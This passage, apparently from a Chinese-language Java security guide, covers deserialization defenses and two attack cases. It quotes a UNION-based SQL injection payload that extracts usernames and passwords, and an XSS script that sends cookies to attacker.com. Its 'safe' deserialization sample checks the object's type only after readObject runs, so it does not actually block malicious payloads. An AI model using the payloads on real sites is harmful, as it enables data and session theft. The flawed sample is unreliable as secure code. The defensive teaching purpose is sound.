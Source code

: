 
## **3. 反序列化漏洞防护**  

#### **3.1 Jackson多态类型过滤**  
• **@JsonTypeInfo注解限制**：  
  ```java  
  @JsonTypeInfo(use = Id.NAME, property = "type")  
  @JsonSubTypes({  
      @Type(value = SafeClass.class, name = "safe"),  
      @Type(value = AnotherSafeClass.class, name = "another_safe")  
  })  
  public abstract class BaseClass {}  
  ```
  *效果*：仅允许反序列化预定义的子类。  

#### **3.2 JDK序列化白名单（JEP 290）**  
• **JVM参数配置**：  
  ```bash  
  -Djdk.serialFilter=!org.apache.commons.collections4.*;!org.codehaus.groovy.runtime.*  
  ```
  *作用*：阻止反序列化已知危险类（如Apache Commons Collections）。  

#### **3.3 安全反序列化框架（Apache Commons IO）**  
• **使用Validate类校验输入**：  
  ```java  
  public void deserializeSafe(byte[] data) {  
      Validate.isTrue(data.length < 1024 * 1024, "数据过大");  // 限制数据大小  
      ByteArrayInputStream bis = new ByteArrayInputStream(data);  
      try (ObjectInputStream ois = new ObjectInputStream(bis)) {  
          Object obj = ois.readObject();  
          Validate.isInstanceOf(SafeClass.class, obj);  // 校验类型  
      }  
  }  
  ```

---

## **生产案例与漏洞复现**  

#### **案例1：SQL注入导致数据泄露**  
• **攻击场景**：  
  某电商平台未使用参数化查询，攻击者通过搜索框注入`' UNION SELECT username, password FROM users--`，盗取用户数据。  
• **修复方案**：  
  全量替换为MyBatis预编译查询，并部署ShardingSphere SQL防火墙拦截恶意语句。  

#### **案例2：XSS攻击窃取管理员Cookie**  
• **攻击复现**：  
  用户评论提交`<script>fetch('http://attacker.com?cookie='+document.cookie)</script>`，管理员查看后触发脚本。  
• **防御措施**：  
  启用Thymeleaf自动转义 + CSP策略，并添加XSS过滤器二次防护。  

---
